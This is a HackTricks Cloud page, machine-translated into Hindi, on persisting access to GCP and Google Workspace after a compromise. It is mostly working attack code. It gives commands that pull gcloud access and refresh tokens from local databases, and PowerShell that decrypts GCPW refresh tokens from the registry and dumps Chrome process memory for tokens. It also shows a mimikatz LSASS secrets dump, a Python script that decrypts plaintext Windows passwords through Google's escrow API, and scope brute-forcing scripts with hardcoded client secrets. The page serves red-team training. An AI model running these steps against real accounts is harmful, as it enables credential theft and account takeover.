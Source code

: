 # GCP - Non-svc Persistance

{% hint style="success" %}


paLearn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

ये तकनीकें उपयोगी हैं जब, किसी न किसी तरह, आपने कुछ GCP क्रेडेंशियल्स या GCP वातावरण में चल रही मशीन को समझौता कर लिया है।

## Token Hijacking

### प्रमाणित उपयोगकर्ता टोकन

किसी उपयोगकर्ता का **वर्तमान टोकन** प्राप्त करने के लिए आप चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पृष्ठ पर देखें कि **gcloud का उपयोग करके इस टोकन का सीधे उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन पाए जाएं।

नए रिफ्रेश किए गए एक्सेस टोकन को **रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

**एडमिन** > **सुरक्षा** > **गूगल क्लाउड सत्र नियंत्रण** में रिफ्रेश टोकन की वैधता को प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से इसे 16 घंटे पर सेट किया गया है, हालांकि इसे कभी समाप्त न होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### प्रमाणीकरण प्रवाह

जब `gcloud auth login` जैसे कुछ का उपयोग करते समय प्रमाणीकरण प्रवाह एक ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी स्कोप को स्वीकार करने के बाद ब्राउज़र इस तरह का एक अनुरोध उपकरण द्वारा खोले गए http पोर्ट पर भेजेगा:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
फिर, gcloud कुछ हार्डकोडेड `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) के साथ स्थिति और कोड का उपयोग करके **अंतिम रिफ्रेश टोकन डेटा** प्राप्त करेगा।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में है, इसलिए डेटा को इंटरसेप्ट करना संभव है ताकि एक रिफ्रेश टोकन प्राप्त किया जा सके, हालाँकि यह डेटा केवल 1 बार के लिए मान्य है, इसलिए यह बेकार होगा, इसे फ़ाइल से रिफ्रेश टोकन पढ़ना आसान है।
{% endhint %}

### OAuth Scopes

आप सभी Google स्कोप [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) पर पा सकते हैं या उन्हें निष्पादित करके प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

इस स्क्रिप्ट के साथ यह देखना संभव है कि **`gcloud`** द्वारा प्रमाणीकरण के लिए उपयोग किया जाने वाला एप्लिकेशन कौन से स्कोप का समर्थन कर सकता है:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
इसके निष्पादन के बाद यह जांचा गया कि यह ऐप इन स्कोप का समर्थन करता है:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
यह देखना दिलचस्प है कि यह ऐप **`drive`** स्कोप का समर्थन करता है, जो एक उपयोगकर्ता को GCP से Workspace में बढ़ाने की अनुमति दे सकता है यदि एक हमलावर उपयोगकर्ता को इस स्कोप के साथ एक टोकन उत्पन्न करने के लिए मजबूर करने में सफल होता है।

**यहाँ देखें कि कैसे** [**इसका दुरुपयोग करें**](../gcp-to-workspace-pivoting/#abusing-gcloud)**।**

### सेवा खाते

जैसे कि प्रमाणित उपयोगकर्ताओं के साथ, यदि आप एक सेवा खाते की **निजी कुंजी फ़ाइल को समझौता** करने में सफल होते हैं, तो आप इसे **आम तौर पर जितना चाहें उतना एक्सेस कर सकेंगे**।\
हालांकि, यदि आप एक सेवा खाते का **OAuth टोकन** चुरा लेते हैं, तो यह और भी दिलचस्प हो सकता है, क्योंकि, भले ही डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, यदि **शिकार निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन तब भी मान्य रहेगा जब तक कि यह समाप्त नहीं हो जाता**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP वातावरण में चल रही एक मशीन के अंदर हैं, आप **उस मशीन से जुड़े सेवा खाते तक पहुँच प्राप्त कर सकेंगे, जो मेटाडेटा एंडपॉइंट से संपर्क करके**। (ध्यान दें कि इस एंडपॉइंट में आप जो Oauth टोकन एक्सेस कर सकते हैं, वे आमतौर पर स्कोप द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में समझाए गए हैं।

## GCPW - Windows के लिए Google क्रेडेंशियल प्रदाता

यह एकल साइन-ऑन है जो Google Workspaces प्रदान करता है ताकि उपयोगकर्ता अपने Windows PCs में **अपने Workspace क्रेडेंशियल्स** का उपयोग करके लॉगिन कर सकें। इसके अलावा, यह कुछ स्थानों पर Google Workspace तक पहुँचने के लिए टोकन संग्रहीत करेगा।

यह जांचना संभव है कि क्या GCPW किसी डिवाइस में स्थापित है, यह जांचकर कि क्या निम्नलिखित प्रक्रिया मौजूद है या यदि निम्नलिखित रजिस्ट्री कुंजी मौजूद हैं:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
वास्तव में **`HKLM:\SOFTWARE\Google\GCPW\Users`** में **domains** मिलना संभव है जो कि कुंजी `domains_allowed` में लॉगिन करने की अनुमति है और उपकुंजियों में उपयोगकर्ता के बारे में जानकारी जैसे ईमेल, चित्र, उपयोगकर्ता नाम, टोकन जीवनकाल आदि मिल सकता है...

और **`HKCU:\SOFTWARE\Google\Accounts`** में उपयोगकर्ता का ईमेल और एन्क्रिप्टेड **refresh token** तक पहुंचना संभव है यदि उपयोगकर्ता हाल ही में लॉगिन किया है।

### GCPW - रजिस्ट्री रिफ्रेश टोकन

रजिस्ट्री **`HKCU:\SOFTWARE\Google\Accounts`** के अंदर कुछ खातों को ढूंढना संभव हो सकता है जिनमें **`refresh_token`** एन्क्रिप्टेड है। विधि **`ProtectedData.Unprotect`** इसे आसानी से डिक्रिप्ट कर सकती है।

<details>

<summary>Get <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> data and decrypt refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

उदाहरण आउट:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) में समझाया गया है, यदि आप रजिस्ट्री में टोकन नहीं पाते हैं, तो **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** से मान को संशोधित (या हटाने) की संभावना है और अगली बार जब उपयोगकर्ता कंप्यूटर का उपयोग करेगा, तो उसे फिर से लॉगिन करने की आवश्यकता होगी और **टोकन पिछले रजिस्ट्री में संग्रहीत होगा**।

### GCPW - डिस्क रिफ्रेश टोकन

फाइल **`%LocalAppData%\Google\Chrome\User Data\Local State`** में **`refresh_tokens`** को डिक्रिप्ट करने के लिए कुंजी संग्रहीत होती है जो उपयोगकर्ता के **Google Chrome प्रोफाइल** के अंदर स्थित होती है जैसे:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

इन टोकनों को उनके डिक्रिप्टेड रूप में एक्सेस करने वाले कुछ **C# कोड** को [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) में पाया जा सकता है।

इसके अलावा, एन्क्रिप्टिंग इस कोड में पाई जा सकती है: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

यह देखा जा सकता है कि AESGCM का उपयोग किया गया है, एन्क्रिप्टेड टोकन एक **संस्करण** (**`v10`** इस समय) से शुरू होता है, फिर इसमें [**12B का नॉनस**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) होता है, और फिर इसमें **साइफर-टेक्स्ट** होता है जिसमें अंतिम **mac 16B** होता है।

### GCPW - प्रक्रियाओं की मेमोरी से टोकन डंप करना

निम्नलिखित स्क्रिप्ट का उपयोग **Chrome** प्रक्रिया को **dump** करने के लिए किया जा सकता है, `procdump` का उपयोग करके, **स्ट्रिंग्स** को निकालें और फिर **access और refresh tokens** से संबंधित स्ट्रिंग्स के लिए **खोजें**।

**मेरे अनुभव में, यह Chrome प्रक्रियाओं से कोई टोकन डंप नहीं करता है या यहां तक कि `gcpw_extension.exe` प्रक्रिया भी नहीं।**

<details>

<summary>Chrome प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\path\to\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\path\to\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\ChromeDumps"
$targetString = "ya29" # "1//" for refresh_tokens

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for the target string in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$asciiStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_ascii_strings.txt"
$unicodeStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_unicode_strings.txt"

Write-Output "Extracting ASCII strings from $dumpFile"
& $stringsPath $dumpFile > $asciiStringsOutputFile

Write-Output "Extracting UTF-16 strings from $dumpFile"
& $stringsPath -u $dumpFile > $unicodeStringsOutputFile

Write-Output "Searching for '$targetString' in $asciiStringsOutputFile"
Select-String -Path $asciiStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}

Write-Output "Searching for '$targetString' in $unicodeStringsOutputFile"
Select-String -Path $unicodeStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}
}
```
</details>

### GCPW - स्पष्ट पाठ पासवर्ड को पुनर्प्राप्त करना

GCPW का दुरुपयोग करके स्पष्ट पाठ पासवर्ड को पुनर्प्राप्त करने के लिए, **mimikatz** का उपयोग करके **LSASS** से एन्क्रिप्टेड पासवर्ड को डंप करना संभव है:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
फिर छवि में की तरह `Chrome-GCPW-<sid>` जैसे गुप्त को खोजें:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

फिर, **एक्सेस टोकन** के साथ जो स्कोप `https://www.google.com/accounts/OAuthLogin` है, यह पासवर्ड को डिक्रिप्ट करने के लिए निजी कुंजी का अनुरोध करना संभव है:

<details>

<summary>एक्सेस टोकन, एन्क्रिप्टेड पासवर्ड और संसाधन आईडी दिए जाने पर स्पष्ट पाठ में पासवर्ड प्राप्त करने के लिए स्क्रिप्ट</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

यह Chromium स्रोत कोड में इसके प्रमुख घटकों को खोजने के लिए संभव है:

* API डोमेन: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API एंडपॉइंट: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)
*

### GCPW - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

डिफ़ॉल्ट रूप से GCPW के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप्स को ढूंढ सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
इसके अलावा, Chromium स्रोत कोड की जांच करने पर [**इस फ़ाइल को ढूंढना संभव है**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), जिसमें **अन्य स्कोप** शामिल हैं जो **पहले से ब्रूट-फोर्स की गई सूची में नहीं दिखाई देते**। इसलिए, इन अतिरिक्त स्कोप को माना जा सकता है:

<details>

<summary>अतिरिक्त स्कोप</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

ध्यान दें कि सबसे दिलचस्प संभवतः:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
हालांकि, मैंने इस दायरे का उपयोग gmail तक पहुँचने या समूहों की सूची बनाने के लिए करने की कोशिश की और यह काम नहीं किया, इसलिए मुझे नहीं पता कि यह अभी कितना उपयोगी है।

**सभी उन दायरों के साथ एक एक्सेस टोकन प्राप्त करें**:

<details>

<summary>सभी दायरों के साथ refresh_token से एक्सेस टोकन उत्पन्न करने के लिए Bash स्क्रिप्ट</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
